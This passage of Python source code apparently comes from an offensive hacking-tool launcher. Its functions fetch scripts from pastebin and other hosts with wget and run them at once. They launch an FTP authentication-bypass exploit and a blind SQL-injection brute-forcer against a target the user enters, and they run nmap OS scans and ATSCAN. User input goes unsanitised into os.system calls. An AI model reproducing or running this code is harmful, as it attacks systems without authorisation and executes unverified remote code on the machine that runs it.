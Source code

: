 
def gabriel():
    print("Abusing authentication bypass of Open&Compact (Gabriel's)")
    os.system("wget http://pastebin.com/raw/Szg20yUh --output-document=gabriel.py")
    clearScr()
    os.system("python gabriel.py")
    ftpbypass = raw_input("Enter Target IP and Use Command :")
    os.system("python gabriel.py %s" % ftpbypass)


def sitechecker():
    os.system("wget http://pastebin.com/raw/Y0cqkjrj --output-document=ch01.py")
    clearScr()
    os.system("python ch01.py")


def h2ip():
    host = raw_input("Select A Host : ")
    ips = socket.gethostbyname(host)
    print(ips)


def ports():
    clearScr()
    target = raw_input('Select a Target IP : ')
    os.system("nmap -O -Pn %s" % target)
    sys.exit()


def ifinurl():
    print""" This Advanced search in search engines, enables analysis provided to exploit GET / POST capturing emails & urls, with an internal custom validation junction for each target / url found."""
    print('Do You Want To Install InurlBR ? ')
    cinurl = raw_input("Y/N: ")
    if cinurl in yes:
        inurl()
    if cinurl in no:
        menu()
    elif cinurl == "":
        menu()
    else:
        menu()


def bsqlbf():
    clearScr()
    print("This tool will only work on blind sql injection")
    cbsq = raw_input("select target : ")
    os.system("wget https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/bsqlbf-v2/bsqlbf-v2-7.pl -o bsqlbf.pl")
    os.system("perl bsqlbf.pl -url %s" % cbsq)
    os.system("rm bsqlbf.pl")


def atscan():
    print ("Do You To Install ATSCAN ?")
    choiceshell = raw_input("Y/N: ")
    if choiceshell in yes:
        os.system("sudo rm -rf ATSCAN")
        os.system(
            "git clone https://github.com/AlisamTechnology/ATSCAN.git && cd ATSCAN && perl atscan.pl")
    elif choiceshell in no:
        os.system('clear')
        menu()
